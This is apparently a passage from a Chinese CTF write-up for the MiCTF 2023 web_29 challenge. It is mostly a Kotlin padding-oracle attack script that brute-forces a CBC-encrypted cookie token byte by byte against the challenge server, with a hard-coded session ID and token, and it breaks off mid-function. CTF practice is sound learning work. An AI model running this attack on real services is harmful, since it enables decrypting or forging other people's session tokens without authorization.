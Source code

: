 参考里面的代码，实现了一版Java版本的，开始爆破，几分钟救出来了。。。（调代码调了几个小时。。。

```kotlin
package com.sumygg.mictf2023.web_29

import okhttp3.MediaType.Companion.toMediaType
import okhttp3.OkHttpClient
import okhttp3.Request
import okhttp3.RequestBody.Companion.toRequestBody
import org.apache.commons.codec.binary.Base64


val url = "https://decrypt-ctfd.dun.mi.com/index.php?run=1"
val N = 16
var client = OkHttpClient()
val casCookie = "MIDUN_COOKIE"

fun injectToken(token: String): String {
    val body = "{}".toRequestBody("application/json".toMediaType())
    val request = Request.Builder()
        .url(url)
        .header("Cookie", "${casCookie}PHPSESSID=$phpsession;token=$token")
        .post(body)
        .build()
    val response = client.newCall(request).execute()
    val str = response.body?.string() ?: "Err!empty body"
//    println(str)
    return str
}

fun xor(a: String, b: String): String {
    return a.indices.map { (a[it].code xor b[it % b.length].code).toChar() }.joinToString("")
}

fun pad(str: String, n: Int): String {
    val l = str.length
    if (l != n) {
        return str + ((n - l).toChar().toString().repeat(n - l))

    }
    return str
}

fun paddingOracle(n: Int): String {
    var get = ""
    for (i in 1 until n + 1) {
        for (j in 0 until 256) {
            val padding = xor(get, i.toChar().toString().repeat(i - 1))
            val c = Char(0).toString().repeat(16 - i) + j.toChar() + padding
            val result = injectToken(String(Base64.encodeBase64(c.toByteArray())))
            if ("Err!" !in result) {
                get = (j xor i).toChar() + get
                break
            }
        }
    }
    return get
}

var phpsession = "399476c1af05f00d22d4e318db0ef2a7"
var originToken = "eXlQSmJmdXc2NzI0SmpodQ=="
var token = String(Base64.decodeBase64(originToken))

fun getSessionAndToken() {
```